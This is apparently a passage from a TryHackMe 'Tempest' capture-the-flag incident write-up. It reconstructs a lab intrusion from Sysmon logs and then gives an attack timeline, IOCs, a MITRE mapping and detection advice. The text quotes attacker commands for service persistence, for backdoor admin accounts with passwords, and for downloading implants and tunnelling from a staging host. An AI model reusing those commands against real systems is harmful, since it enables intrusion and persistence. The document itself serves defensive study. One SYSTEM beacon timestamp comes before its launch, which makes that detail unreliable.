

```
Event ID:      1 (Process Creation)
Time:          2022-06-20 17:21:34
ParentProcess: C:\Windows\System32\wsmprovhost.exe
Image:         C:\Users\benimaru\Downloads\spf.exe

CommandLine:   "C:\Users\benimaru\Downloads\spf.exe" -c C:\ProgramData\final.exe

SHA256: 8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D
```



VirusTotal identifies the binary as **PrintSpoofer**. The tool abuses `SeImpersonatePrivilege` by coercing the Windows Print Spooler service into authenticating to an attacker-controlled named pipe, then impersonating the resulting SYSTEM token to spawn a process with elevated privileges.

PrintSpoofer executed `final.exe` as `NT AUTHORITY\SYSTEM`. The network connection generated by `final.exe` was confirmed by inspecting the raw JSON event data in the Timeline Explorer Event ID `3` entry.



```
Event ID:         3 (Network Connection)
Time:             2022-06-20 17:08:00
Image:            C:\ProgramData\final.exe
User:             NT AUTHORITY\SYSTEM
DestinationIP:    167.71.222.162
DestinationPort:  8080
```

`final.exe` beacons to `resolvecyber.xyz` on port `8080`, the same C2 server as `first.exe` but a separate port, establishing a SYSTEM-level C2 channel distinct from the user-level one.


## Phase 7 - Actions on Objective: Persistence and Full Ownership

With SYSTEM access via `final.exe`, the attacker immediately secured persistence before creating backdoor accounts. Searching Timeline Explorer for `sc.exe` with `final.exe` as the parent surfaces the service creation commands.



```
Event ID:      1 (Process Creation)
ParentProcess: C:\ProgramData\final.exe

Time: 2022-06-20 17:26:04
"C:\Windows\system32\sc.exe" \\TEMPEST create TempestUpdate binpath= C:\ProgramData\final.exe start= auto

Time: 2022-06-20 17:26:29
"C:\Windows\system32\sc.exe" \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto
```

Two auto-start services were created pointing to `final.exe`, ensuring SYSTEM-level C2 persistence across reboots. The service names `TempestUpdate` and `TempestUpdate2` are deliberately chosen to blend with legitimate Windows update services.

Backdoor account creation followed. The attacker initially attempted creation without the `/add` flag, which failed silently.



```
# Failed attempts (missing /add)
"C:\Windows\system32\net.exe" user shion m4st3rch3f!
"C:\Windows\system32\cmd.exe" /c net user shion m4st3rch3f!!!

# Successful creation
"C:\Windows\system32\net.exe" user /add shuna princess
"C:\Windows\system32\net.exe" user /add shion m4st3rch3f!

# Privilege assignment
"C:\Windows\system32\net.exe" localgroup administrators /add shion
```

Account creation was corroborated in the Windows Security event log.



```
Event ID: 4720 - A new user account was created
Target: TEMPEST\shuna (S-1-5-21-349058839-1848105669-1528301110-1002)
Target: TEMPEST\shion (S-1-5-21-349058839-1848105669-1528301110-1003)
```

The addition of `shion` to the local Administrators group was confirmed by Event ID `4732`.



```
Event ID: 4732 - A member was added to a security-enabled local group
Target Account: TEMPEST\shion
Target Group:   Builtin\Administrators (S-1-5-32-544)
```

The attacker concluded with three independent persistence layers: the `update.lnk` Startup shortcut (user-level, login-triggered), two auto-start Windows services running `final.exe` as SYSTEM (survives reboots), and a backdoor local administrator account (`shion`) for direct re-entry. Full remediation requires removing all three.


## Attack Timeline

```
2022-06-20 16:59:12  WINWORD.EXE connects to 52.109.124.153:443 (Office telemetry)
2022-06-20 16:59:13  WINWORD.EXE DNS query -> ecs.office.com (legitimate)
2022-06-20 16:59:29  WINWORD.EXE DNS query -> phishteam.xyz -> 167.71.199.191
2022-06-20 16:59:29  WINWORD.EXE network connection -> 167.71.199.191:80
2022-06-20 17:13:12  free_magicules.doc opened by benimaru (WINWORD.EXE PID 496)
2022-06-20 17:13:35  msdt.exe spawned by WINWORD.EXE - CVE-2022-30190 (Follina) triggered
2022-06-20 17:13:35  Base64 payload decoded and executed: downloads update.zip from phishteam.xyz
2022-06-20 17:13:37  update.lnk dropped to Startup folder by sdiagnhost.exe
2022-06-20 17:13:40  update.zip removed (anti-forensics)
2022-06-20 17:15:10  explorer.exe triggers update.lnk on login
2022-06-20 17:15:10  PowerShell certutil downloads first.exe from phishteam.xyz/02dcf07/first.exe
2022-06-20 17:15:11  first.exe executed from C:\Users\Public\Downloads\
2022-06-20 17:15:14  first.exe DNS query -> resolvecyber.xyz -> 167.71.222.162
2022-06-20 17:15:14  first.exe begins C2 beaconing to resolvecyber.xyz:80 via GET /9ab62b5
2022-06-20 17:15:25  Attacker runs whoami, pwd via C2 channel
2022-06-20 17:15:33  Attacker runs dir C:\Users - discovers benimaru and rimuru
2022-06-20 17:15:42  Attacker reads automation.ps1 - obtains benimaru:infernotempest
2022-06-20 17:15:48  Attacker runs net user benimaru - confirms Remote Management Users membership
2022-06-20 17:16:00  Attacker runs net localgroup administrators - confirms rimuru is local admin
2022-06-20 17:16:13  Attacker runs netstat - discovers port 5985 (WinRM) listening
2022-06-20 17:16:51  Attacker downloads ch.exe (Chisel) via PowerShell iwr
2022-06-20 17:18:48  ch.exe executed: client 167.71.199.191:8080 R:socks (reverse SOCKS5 tunnel)
2022-06-20 17:18:xx  Attacker authenticates via WinRM through Chisel tunnel
2022-06-20 17:18:xx  wsmprovhost.exe spawned - WinRM session established as benimaru
2022-06-20 17:18:xx  Attacker runs whoami /priv - confirms SeImpersonatePrivilege enabled
2022-06-20 17:18:xx  spf.exe (PrintSpoofer) downloaded from phishteam.xyz/02dcf07/spf.exe
2022-06-20 17:18:xx  final.exe downloaded to C:\ProgramData\final.exe
2022-06-20 17:21:34  spf.exe -c C:\ProgramData\final.exe executed (PrintSpoofer)
2022-06-20 17:08:00  final.exe spawned as NT AUTHORITY\SYSTEM - SYSTEM-level C2 established
2022-06-20 17:08:00  final.exe beacons to resolvecyber.xyz:8080 (167.71.222.162)
2022-06-20 17:26:04  sc.exe creates TempestUpdate service (binpath: final.exe, start: auto)
2022-06-20 17:26:29  sc.exe creates TempestUpdate2 service (binpath: final.exe, start: auto)
2022-06-20 17:27:19  net user /add shuna princess - account created (Event ID 4720)
2022-06-20 17:27:28  net user /add shion m4st3rch3f! - account created (Event ID 4720)
2022-06-20 17:27:41  net localgroup administrators /add shion (Event ID 4732)
```

---

## IOC Summary

| Type | Value | Context |
|---|---|---|
| File | `free_magicules.doc` | Malicious Word document - initial lure |
| Domain | `phishteam.xyz` | Delivery server - payload staging |
| IP Address | `167.71.199.191` | phishteam.xyz resolved IP |
| URL Path | `http://phishteam.xyz/02dcf07/index.html` | Malicious document callback URL |
| URL Path | `http://phishteam.xyz/02dcf07/update.zip` | Stage 1 payload archive |
| URL Path | `http://phishteam.xyz/02dcf07/first.exe` | C2 implant download |
| URL Path | `http://phishteam.xyz/02dcf07/ch.exe` | Chisel download |
| URL Path | `http://phishteam.xyz/02dcf07/spf.exe` | PrintSpoofer download |
| URL Path | `http://phishteam.xyz/02dcf07/final.exe` | SYSTEM C2 implant download |
| Domain | `resolvecyber.xyz` | C2 server |
| IP Address | `167.71.222.162` | resolvecyber.xyz resolved IP |
| URL Path | `/9ab62b5` | C2 command polling endpoint |
| User Agent | `Nim httpclient/1.6.6` | C2 implant user agent |
| File | `update.lnk` | Startup folder persistence shortcut |
| Path | `C:\Users\Public\Downloads\first.exe` | C2 implant (Nim) |
| Hash | `CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8` | first.exe hash |
| File | `ch.exe` | Chisel SOCKS5 proxy |
| Path | `C:\Users\benimaru\Downloads\ch.exe` | Chisel drop location |
| Hash | `8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451` | Chisel hash |
| File | `spf.exe` | PrintSpoofer privilege escalation tool |
| Path | `C:\Users\benimaru\Downloads\spf.exe` | PrintSpoofer drop location |
| Hash | `8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D` | PrintSpoofer hash |
| File | `final.exe` | SYSTEM-level C2 implant |
| Path | `C:\ProgramData\final.exe` | SYSTEM C2 implant drop location |
| Account | `TEMPEST\shuna` | Backdoor account (password: princess) |
| Account | `TEMPEST\shion` | Backdoor local admin account (password: m4st3rch3f!) |
| Password | `infernotempest` | benimaru credential found in automation.ps1 |
| Password | `princess` | shuna backdoor account password |
| Password | `m4st3rch3f!` | shion backdoor account password |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Evidence |
|---|---|---|---|
| Initial Access | Phishing: Spearphishing Attachment | T1566.001 | free_magicules.doc delivered via Chrome |
| Execution | Exploitation for Client Execution | T1203 | CVE-2022-30190 (Follina) via msdt.exe |
| Execution | Command and Scripting Interpreter: PowerShell | T1059.001 | Base64-encoded PowerShell payload |
| Persistence | Boot or Logon Autostart Execution: Startup Folder | T1547.001 | update.lnk in Startup folder |
| Persistence | Create or Modify System Process: Windows Service | T1543.003 | TempestUpdate / TempestUpdate2 services |
| Persistence | Create Account: Local Account | T1136.001 | shuna and shion backdoor accounts |
| Defense Evasion | Obfuscated Files or Information: Command Obfuscation | T1027.010 | Base64-encoded C2 traffic via q parameter |
| Defense Evasion | Masquerading | T1036 | TempestUpdate service name mimics legitimate update services |
| Defense Evasion | Indicator Removal | T1070 | update.zip deleted after extraction |
| Credential Access | Credentials in Files | T1552.001 | infernotempest hardcoded in automation.ps1 |
| Discovery | Account Discovery: Local Account | T1087.001 | net users, net user benimaru |
| Discovery | Permission Groups Discovery: Local Groups | T1069.001 | net localgroup administrators |
| Discovery | System Network Connections Discovery | T1049 | netstat -ano -p tcp |
| Discovery | File and Directory Discovery | T1083 | dir commands on Desktop and Downloads |
| Lateral Movement | Remote Services: Windows Remote Management | T1021.006 | WinRM via port 5985 using harvested credentials |
| Command and Control | Application Layer Protocol: Web Protocols | T1071.001 | HTTP C2 beaconing to resolvecyber.xyz |
| Command and Control | Proxy: Multi-hop Proxy | T1090.003 | Chisel reverse SOCKS5 tunnel |
| Command and Control | Data Encoding: Standard Encoding | T1132.001 | Base64-encoded command results in q parameter |
| Privilege Escalation | Abuse Elevation Control Mechanism | T1548 | PrintSpoofer exploiting SeImpersonatePrivilege |
| Privilege Escalation | Access Token Manipulation: Token Impersonation/Theft | T1134.001 | SeImpersonatePrivilege -> SYSTEM token |
| Collection | Data from Local System | T1005 | automation.ps1 read via cat command |

---

## SOC Implications

The most operationally relevant aspect of this investigation is the alert queue entry point. The investigation began with a single confirmed fact: a malicious `.doc` file was downloaded via Chrome. That anchor was enough to start the chain. Before opening any tool, reading the alert intelligence and forming a hypothesis about the likely execution path shaped every subsequent query. The first filter in Timeline Explorer was not a broad scan but a targeted lookup for `WinWord.exe` as a parent process. In a real environment with millions of events per day, this approach is the difference between finding the thread in minutes versus hours of aimless browsing.

Cross-source corroboration was the mechanism that elevated findings from suspicious to confirmed. Sysmon Event ID 22 showed `phishteam.xyz` was queried by `WINWORD.EXE` - that proves intent. Sysmon Event ID 3 immediately after shows the connection to `167.71.199.191` was completed, that proves the action occurred. Neither alone is sufficient for escalation quality evidence; together they are unambiguous. The same principle applied throughout: the PCAP confirmed what Sysmon indicated through C2 beaconing traffic, and the Windows Security log confirmed what Sysmon showed through account creation, Event ID 4720 corroborating the `net user /add` commands visible in process logs. Any detection or remediation recommendation in a real incident report requires both layers of evidence.

Two significant detection gaps were exposed by this incident. First, CVE-2022-30190 was exploited without any macro execution, bypassing macro-based email gateway controls entirely. The detection surface for Follina is `msdt.exe` being spawned by Office processes with `ms-msdt:` URI arguments, a Sysmon rule targeting Event ID 1 with `ParentImage` matching Office executables and `CommandLine` containing `ms-msdt:` would catch this at execution time. Second, the C2 traffic used HTTP over port 80 with base64-encoded content in standard GET parameters, blending with legitimate web traffic. Detection requires user agent analysis: `Nim httpclient/1.6.6` is an immediately actionable IOC that would have identified both `first.exe` and `final.exe` beaconing at the network layer. IR recommendation: isolate `TEMPEST`, revoke `benimaru`'s credentials, remove all three persistence mechanisms (`update.lnk`, `TempestUpdate` and `TempestUpdate2` services, `shion` and `shuna` accounts), block `phishteam.xyz` and `resolvecyber.xyz` at the perimeter, and hunt for the `Nim httpclient/1.6.6` user agent string across all endpoint and network logs.

The highest severity finding is the SYSTEM-level C2 channel established by `final.exe`. By the end of the attack chain the adversary held three independent persistence mechanisms, a backdoor local administrator account, and a beaconing implant running as SYSTEM. The service creation under SYSTEM context means the implant survives reboots and runs before any user session begins. The separation of infrastructure between delivery (`phishteam.xyz`) and command and control (`resolvecyber.xyz`) indicates a deliberate operational security posture, suggesting a threat actor with enough maturity to compartmentalise their infrastructure. The full attack chain from phishing document to SYSTEM access was completed within the same session, indicating either an automated post-exploitation framework or a highly practiced operator working a pre-planned playbook.

---

*TryHackMe - SOC Level 1 Capstone Challenges | Room: Tempest*